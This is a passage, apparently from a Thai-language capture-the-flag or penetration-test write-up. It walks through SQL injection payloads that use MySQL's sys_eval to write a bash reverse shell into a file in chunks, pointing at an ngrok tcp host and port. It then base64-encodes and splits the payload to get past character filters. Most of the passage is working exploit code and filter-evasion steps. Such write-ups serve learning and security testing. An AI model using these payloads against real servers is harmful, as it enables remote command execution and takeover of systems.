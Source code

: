     1 AND ''=(select sys_eval('echo${IFS}"/bin/bash -i "'>a))#
    1 AND ''=(select sys_eval('echo${IFS}">& /dev/tcp/0."'>>a))#
    1 AND ''=(select sys_eval('echo${IFS}"tcp.ap.ngrok.io"'>>a))#
    1 AND ''=(select sys_eval('echo${IFS}"/13760 0>&1"'>>a))#
    ```

- นำ payload ทั้งหมดไปทดสอบ แต่ปรากฎว่า payload บางอันใช้ไม่ได้ หรืออาจจะมี filter อักขระอะไรอีกรึป่าว
- จึงทำการเปลี่ยน command ใหม่ โดย encode command ในส่วนของ reverse shell เป็น base64 ก่อนเพื่อหลีกเลี่ยง special characters
    ```bash
    echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzAudGNwLmFwLm5ncm9rLmlvLzEzNzYwIDA+JjE=|bass64${IFS}-d|bash${IFS}-i
    ```      
- เอา payload มาแบ่งส่วนเหมือนเดิม 

    ```bash
    #ใช้ echo เขียนไฟล์ โดยใช้ชื่อไฟล์ a

    1 AND ''=(select sys_eval('echo${IFS}"L2Jpbi9iYXNoIC1">a'))#
    1 AND ''=(select sys_eval('echo${IFS}"pID4mIC9kZX">>a'))#
    1 AND ''=(select sys_eval('echo${IFS}"XYvdGNwLzAudGNwL">>a'))#
    ......
    1 AND ''=(select sys_eval('echo${IFS}"|base64${IFS}-d">>a'))#
    1 AND ''=(select sys_eval('echo${IFS}"|bash${IFS}-i">>a'))#
    ```

- เมื่อส่ง payload ทั้งหมดได้สำเร็จ ก็ลองไปอ่านไฟล์ `a` ที่เขียนไว้ ดูก่อน ปรากฎว่า มีไฟล์ถูกเขียนจริง แต่...

    ```bash
    #ข้อความในไฟล์ติดกัน และถูกขึ้นบรรทัดใหม่ ไม่สามารถใช้ได้

    echoL2Jpbi9iYXNoIC1
    pID4mIC9kZX
    YvdGNwLzAudGNwL
    mFwLm5ncm9rLmlv
    LzEzNzYwIDA+JjE=
    |bass64-d
    |bash-i
    ```

- เอาใหม่อีกครั้ง encode ทั้งหมดนี้แหละ เป็น base64 ไปเลย ที่นี้เขียน code python ให้ช่วยแบ่ง payload ให้เลย
  และเปลี่ยนคำสั่ง `echo` เป็น `printf` แทน

    <img src="./resources/57.png" alt="" style="width:90% !important;">
